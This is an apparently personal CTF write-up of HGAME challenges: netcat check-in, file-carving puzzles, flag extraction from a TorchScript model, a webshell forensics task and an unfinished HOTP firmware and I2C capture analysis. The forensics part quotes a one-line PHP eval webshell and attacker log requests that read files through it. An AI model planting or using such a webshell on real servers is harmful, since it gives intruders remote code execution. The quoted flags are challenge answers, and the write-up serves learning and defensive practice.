> *s3loy #000132 4700 pts*

## Check-in

### 1.test nc

> Just test your NetCat.
>
> Try connecting to the remote environment and getting the flag through its shell.

```bash
❯ nc node1.hgame.vidar.club 31838
ls
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
cat flag
hgame{Y0ur-Can_c0nN3Ct-To_THE-reM0te_ENv1RoNMEnT_To_Get_FLAg0}
```

> hgame{Y0ur-Can_c0nN3Ct-To_THE-reM0te_ENv1RoNMEnT_To_Get_FLAg0}

### 2.The Prologue Starts Here

ctrl+C   ctrl+shift+v

> hgame{Now-I-kn0w-how-to-subm1t-my-fl4gs!}

## Misc

### 1.Hakuya Want A Girl Friend

> It's time for the annual HGAME again. Following the tradition of the last two years, we're finding (~~sacrificing~~) a single member to make a challenge out of 🥵🥵.
>
> It worked out for the last two. Here's hoping it works this year too 🙏.

~~What an absurd challenge (jk)~~



Downloaded the txt and found it was hexadecimal data in a text file, so I converted it.

```python
with open('hky.txt', 'r') as f:
    hex_data = f.read().strip()
binary_data = bytes.fromhex(hex_data)
with open('output_file', 'wb') as f:
    f.write(binary_data)
print("文件已成功合成")
```

The archive needed a password. I kept looking for clues and noticed that flag.txt inside it was tiny, so I suspected there was something else hidden here.



There was a reversed PNG at the end, so the latter part of the archive probably contained something else.

```python
def reverse_png(input_file, output_file):
    with open(input_file, 'rb') as f:
        content = f.read()
        
    reversed_content = content[::-1]
    
    with open(output_file, 'wb') as f:
        f.write(reversed_content)

input_path = 'aphoto' 
output_path = 'fixed_output.png'
reverse_png(input_path, output_path)
```

Then I could see the photo.

Used the CRC to calculate a width of 576 and height of 779, then patched them.



`To_f1nd_th3_QQ`: At first I thought I had to find his QQ number and use it as the password. I spent ages getting nowhere, only to find that this string itself was the password.

> hagme{h4kyu4_w4nt_gir1f3nd_+q_931290928}

### 2.Level 314: Twin Entities in the Linear Corridor

> **Observation Record: Level 314, Twin Entities in the Linear Corridor**
>
> **Entity identifier:** Model.pt
> **Danger class:** Class Ψ (requires special conditions to activate)
>
> **Description:** An anomalous entity was discovered in the linear corridors of Level 314, manifesting as a frozen neural network module (Model.pt).
>
> **Observation protocol:**
>
> 1. Activate the entity using the standard loading protocol:
>
>     ```python
>     entity = torch.jit.load('Model.pt')
>     ```
>
> 2. Prepare a tensor with shape [█，██], ensuring that it satisfies the “█/█ steady-state” condition.
>
> 3. Feed the tensor into the entity to attempt to activate the information:
>
>     ```python
>     output = entity(input_tensor)
>     ```
>
> **Warning:**
>
> - The input tensor's reality stability coefficient (atol) must be ≤1e-4, or the information layer may collapse.
> - Avoid random tensors, which may cause contamination by false signals.
>
> **Appendix:**
>
> - The entity appears to use phase-shift encryption and temporal-displacement encryption.
> - Operation under M.E.G. supervision is recommended to prevent unstable propagation of the information layer.

The description startled me at first. What a cool premise.

First, let's extract some information from the supplied pt model.

```python
import torch
entity = torch.jit.load('entity.pt')

# Print general info about the entity
print("Entity info:", entity)

# Print the code contained in the entity
print("\nEntity code:")
print(entity.code)

# Print the list of modules
print("\nModules:")
for name, module in entity.named_modules():
    print(f"- {name}")

# Print parameters and their shapes
print("\nParameters:")
for name, param in entity.named_parameters():
    print(f"- {name}: {param.shape}")
'''
Entity info: RecursiveScriptModule(original_name=MyModel
  (linear1): RecursiveScriptModule(original_name=Linear)
  (security): RecursiveScriptModule(original_name=SecurityLayer)
  (relu): RecursiveScriptModule(original_name=ReLU)
  (linear2): RecursiveScriptModule(original_name=Linear)
)

Entity code:
def forward(self,
    x: Tensor) -> Tensor:
  linear1 = self.linear1
  x0 = (linear1).forward(x, )
  security = self.security
  x1 = (security).forward(x0, )
  relu = self.relu
  x2 = (relu).forward(x1, )
  linear2 = self.linear2
  return (linear2).forward(x2, )
  
Modules:
- linear1
- security
- relu
- linear2

Parameters:

- linear1.weight: torch.Size([10, 10])
- linear1.bias: torch.Size([10])
- linear2.weight: torch.Size([1, 10])
- linear2.bias: torch.Size([1])
'''
```

I didn't think any normal module would be called `security`, so I took a look at what it was.

```python
print(dir(entity.security))
'''
['T_destination', '__annotations__', '__bool__', '__call__', '__class__', '__contains__', '__copy__', '__deepcopy__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattr__', '__getattribute__', '__getitem__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__jit_unused_properties__', '__le__', '__len__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__reduce_package__', '__repr__', '__setattr__', '__setstate__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_apply', '_backward_hooks', '_backward_pre_hooks', '_buffers', '_c', '_call_impl', '_compiled_call_impl', '_concrete_type', '_constants_set', '_construct', '_disable_script_meta', '_finalize_scriptmodule', '_forward_hooks', '_forward_hooks_always_called', '_forward_hooks_with_kwargs', '_forward_pre_hooks', '_forward_pre_hooks_with_kwargs', '_get_backward_hooks', '_get_backward_pre_hooks', '_get_name', '_initializing', '_is_full_backward_hook', '_load_from_state_dict', '_load_state_dict_post_hooks', '_load_state_dict_pre_hooks', '_maybe_warn_non_full_backward_hook', '_methods', '_modules', '_named_members', '_non_persistent_buffers_set', '_parameters', '_reconstruct', '_register_load_state_dict_pre_hook', '_register_state_dict_hook', '_replicate_for_data_parallel', '_save_for_lite_interpreter', '_save_to_buffer_for_lite_interpreter', '_save_to_state_dict', '_slow_forward', '_state_dict_hooks', '_state_dict_pre_hooks', '_version', '_wrapped_call_impl', 'add_module', 'apply', 'bfloat16', 'buffers', 'call_super_init', 'children', 'code', 'code_with_constants', 'compile', 'cpu', 'cuda', 'define', 'double', 'dump_patches', 'eval', 'extra_repr', 'float', 'forward', 'forward_magic_method', 'get_buffer', 'get_debug_state', 'get_extra_state', 'get_parameter', 'get_submodule', 'graph', 'graph_for', 'half', 'inlined_graph', 'ipu', 'load_state_dict', 'modules', 'mtia', 'named_buffers', 'named_children', 'named_modules', 'named_parameters', 'original_name', 'parameters', 'register_backward_hook', 'register_buffer', 'register_forward_hook', 'register_forward_pre_hook', 'register_full_backward_hook', 'register_full_backward_pre_hook', 'register_load_state_dict_post_hook', 'register_load_state_dict_pre_hook', 'register_module', 'register_parameter', 'register_state_dict_post_hook', 'register_state_dict_pre_hook', 'requires_grad_', 'save', 'save_to_buffer', 'set_extra_state', 'set_submodule', 'share_memory', 'state_dict', 'to', 'to_empty', 'train', 'type', 'xpu', 'zero_grad']
'''
```

There was a curious code attribute. Let's print it:

```python
print(entity.security.code)
'''
def forward(self,
    x: Tensor) -> Tensor:
  _0 = torch.allclose(torch.mean(x), torch.tensor(0.31415000000000004), 1.0000000000000001e-05, 0.0001)
  if _0:
    _1 = annotate(List[str], [])
    flag = self.flag
    for _2 in range(torch.len(flag)):
      b = flag[_2]
      _3 = torch.append(_1, torch.chr(torch.__xor__(b, 85)))
    decoded = torch.join("", _1)
    print("Hidden:", decoded)
  else:
    pass
  if bool(torch.gt(torch.mean(x), 0.5)):
    _4 = annotate(List[str], [])
    fake_flag = self.fake_flag
    for _5 in range(torch.len(fake_flag)):
      c = fake_flag[_5]
      _6 = torch.append(_4, torch.chr(torch.sub(c, 3)))
    decoded0 = torch.join("", _4)
    print("Decoy:", decoded0)
  else:
    pass
  return x
'''
```

In theory, we should construct a 1*10 tensor with every value equal to π/10, which also explains the black boxes in the challenge description.

But flag is a static attribute, so we can just print it directly (

```python
import torch

# Load the model
entity = torch.jit.load('entity.pt')

# Extract the encrypted data from the security layer
security_layer = entity.security
flag = security_layer.flag     
fake_flag = security_layer.fake_flag

# Decryption logic
hidden = ''.join([chr(c ^ 85) for c in flag])
decoy = ''.join([chr(c - 3) for c in fake_flag])

print("Hidden Flag (直接提取):", hidden)
print("Decoy Flag (直接提取):", decoy)

'''
Hidden Flag (直接提取): flag{s0_th1s_1s_r3al_s3cr3t}
Decoy Flag (直接提取): flag{fake_flag}
'''
```

Not sure why the flag starts with `flag`.

> flag{s0_th1s_1s_r3al_s3cr3t}

### 3.Computer cleaner

> Xiaoming's virtual machine seems to have been attacked. Can you help him clean up his computer?
>
> 1. Find the attacker's webshell connection password.
> 2. Do some basic tracing of the attacker.
> 3. Investigate the attacker's goal.
>
> Virtual machine password: vviiddaarr

Opened it with VMware Workstation 17.

Since there was a webshell, the web server was the place to look, so I went to /var/www/html.

The logs revealed the attacker's goal.

```bash
121.41.34.25 - - [17/Jan/2025:12:02:00 +0000] "GET /uploads/shell.php?cmd=ls HTTP/1.1" 200 2048 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36"
121.41.34.25 - - [17/Jan/2025:12:02:05 +0000] "GET /uploads/shell.php?cmd=cat%20~/Documents/flag_part3 HTTP/1.1" 200 2048 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36"
```

In shell.php, we can see `<?php @eval($_POST['hgame{y0u_']);?>`.

A little tracing of 121.41.34.25:



`hav3_cleaned_th3`

/Documents/flag_part3

`_c0mput3r!}`

> hgame{y0u_hav3_cleaned_th3_c0mput3r!}

### 4.Two wires

> [HOTP](https://en.wikipedia.org/wiki/HMAC-based_one-time_password) is a one-time password generation algorithm, usually with two variable parameters: a `secret` key and a `counter`. The counter increments after each password is generated.
>
> You obtained a secondhand HOTP authenticator implementing HOTP according to RFC 4226. You discovered that the microcontroller in its security module had not disabled flash readout, so you easily obtained complete images of its internal firmware and EEPROM right away.
>
> To study how it works, after obtaining the images, you tapped the communication lines between the microcontroller and USB interface chip and connected them to a logic analyzer (shown below). You then used the supplied host software to set a new HOTP key while observing the communication waveforms.



> Using the supplied firmware, EEPROM image, and sigrok waveform file, analyze and calculate the following:
>
> - The HOTP obtained during interaction with the host software, denoted `X1`;
> - Using the key and initial counter set during that interaction, the HOTP obtained on the 10th use (including the current one, i.e. `counter+9`), denoted `X2`;
> - If the previous owner had continued using the authenticator, the HOTPs they would obtain on the 32nd and 64th subsequent uses (i.e. at `counter+32` and `counter+64`), denoted `Y1` and `Y2`;
>
> **Flag format**: `hgame{X1_X2_Y1_Y2}`, with each HOTP represented in decimal and zero-padded on the left to the number of digits used by the authenticator. For example, if it generates 8-digit HOTPs, a correctly formatted flag would be `hgame{00000000_00000001_00000022_00000333}`.



`capture.sr` is the sigrok waveform file.

`firmware.elf` contains the firmware.

`eeprom.bin` is the EEPROM image.

I had absolutely no idea where to start with this one either, so I began by studying what the challenge asked for.

First, HOTP.





After gathering enough information, I put together a script to generate HOTPs.

```python
import struct
import hmac
import hashlib


def hotp(secret, counter):
    counter_bytes = struct.pack(">Q", counter)

    # Calculate the hash using HMAC-SHA1
    hmac_hash = hmac.new(secret, counter_bytes, hashlib.sha1).digest()

    # Extract the number with dynamic truncation (the standard HOTP process)
    offset = hmac_hash[-1] & 0x0F  # Take the low four bits of the hash's last byte
    code = struct.unpack(">I", hmac_hash[offset:offset+4])[0] & 0x7FFFFFFF  # Extract and process 4 bytes
    return code % 1000000  # Return a 6-digit verification code

secret1 = ""
secret2 = ""

counter1 = 0
counter2 = 0

x1 = hotp(secret1, counter1)
x2 = hotp(secret1,counter1+9)

y1 = hotp(secret2, counter2+32)
y2 = hotp(secret2,counter2+64)

print(f"hgame{{{x1}_{x2}_{y1}_{y2}}}")
```

This was just a first draft before analyzing anything else.

So the questions now are:

- The host software's `secret` and `counter`.
- The previous owner's `secret` and `counter`.

Let's take it one step at a time.

#### 1 The Host Software

We should look at `firmware.elf`.

```bash
❯ binwalk -t -vv -e firmware.elf

MD5 Checksum:  7399bbea95a9dfb405db0df71d96344a
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
------------------------------------------------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, version 1 (SYSV)
```

Opened it in IDA Pro.



But IDA couldn't disassemble it.

Tried Ghidra instead. It could disassemble it, but there were lots of errors.

```c
/* i2cOnReceive(int) */

undefined2 i2cOnReceive(undefined2 param_1)

{
    undefined *unaff_SP;
    undefined *puVar1;
    char cVar2;
    undefined2 uVar3;
    undefined uVar4;
    ushort in_R25R24;
    undefined1 *puVar5;
    undefined *puVar6;

    cVar2 = '\0';
    *unaff_SP = (char)param_1;
    unaff_SP[-1] = (char)((ushort)param_1 >> 8);
    unaff_SP[-2] = (char)mem0x001c;
    unaff_SP[-3] = (char)((ushort)mem0x001c >> 8);
    puVar1 = unaff_SP + -4;
    if (next_action == cVar2) {
        if (0x10 < in_R25R24) {
            puVar5 = &msg_recv;
            do {
                uVar4 = 0xff;
                *(undefined2 *)(puVar1 + -1) = 0x58a;
                puVar1 = puVar1 + -2;
                uVar3 = TwoWire::read();
                puVar6 = puVar5 + 1;
                *puVar5 = uVar4;
                puVar5 = puVar6;
            } while ((byte)uVar3 != (byte)puVar6 ||
                     (char)((ushort)uVar3 >> 8) !=
                     (char)((char)((ushort)puVar6 >> 8) + ((byte)uVar3 < (byte)puVar6)));
            if (msg_recv == '\x01') {
                next_action = '\x03';
            }
            else if (msg_recv == '\0') {
                next_action = '\x02';
            }
            else if (msg_recv == '\x02') {
                next_action = '\x04';
            }
            else if (msg_recv == '\x03') {
                next_action = '\x05';
            }
        }
    }
    else {
        illegal_state = 1;
    }
    return CONCAT11(puVar1[3],puVar1[4]);
}

```

The `i2cOnReceive` function explains this.

Looking directly at `firmware.elf` didn't seem to reveal much. But according to the description, `capture.sr` should contain the process of setting a new HOTP key, so in theory we can extract information from it.

Downloaded `PulseView` and opened `capture.sr`.

~~P.S. This software doesn't support paths containing Chinese characters. Try it yourself and you'll see.~~



There were four channels after opening it, but the earlier diagram shows that we only need `D0` and `D1`, so I just deleted `D2` and `D3`.



Added an I^2^C decoder.



As its name suggests, `address read` is not what we want, so look at what follows `data write`.



I didn't know what that other one way off in the distance was, but the earlier data looked so regular that I collected it first.



What am I supposed to do with all this data?

Group 1: `01 6B 69 4F 7E 03 54 F6 C6 6A B5 00 00 00 00 00 00`

Group 2: `00 01 00 00 00 93 7E CD 0D 00 00 00 00 00 00 00 00`

Group 3: `02 1A 04 02 1B 1C 6D 7D 45 58 02 00 00 00 00 00 00`

Group 4: `03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00`

I stopped thinking about this for the moment.

#### 2 The Previous Owner

Analyzed `EepromData::tryUnserialize` in the firmware.

```c
/* EepromData::tryUnserialize(OtpState&) [clone .constprop.15] */

undefined2 EepromData::tryUnserialize(undefined2 param_1)

{
    ...omitted...
    cVar10 = '\0';
    *unaff_SP = (char)in_R15R14;
    unaff_SP[-1] = (char)((ushort)in_R15R14 >> 8);
    unaff_SP[-2] = (char)param_1;
    unaff_SP[-3] = (char)((ushort)param_1 >> 8);
    unaff_SP[-4] = (char)mem0x001c;
    unaff_SP[-5] = (char)((ushort)mem0x001c >> 8);
    puVar2 = unaff_SP + -6;
    puVar16 = unaff_SP + -0x26;
    cVar5 = in_Hflg == '\x01';
    cVar6 = in_Tflg == '\x01';
    cVar7 = in_Iflg == '\x01';
    SREG = puVar2 < &UNK_mem_0020 | (puVar2 == &UNK_mem_0020) << 1 |
        ((short)(unaff_SP + -0x26) < 0) << 2 | (SBORROW2((short)puVar2,0x20) == true) << 3 |
        ((byte)((short)(unaff_SP + -0x26) < 0 ^ SBORROW2((short)puVar2,0x20)) == 1) << 4 |
        cVar5 << 5 | cVar6 << 6 | cVar7 << 7;
    sVar3 = CONCAT11((char)((ushort)(unaff_SP + -0x26) >> 8),(char)puVar2 + -0x20);
    pbVar11 = unaff_SP + -0x25;
    bVar9 = 0;
    do {
        *(undefined2 *)(sVar3 + -1) = 0x495;
        sVar3 = sVar3 + -2;
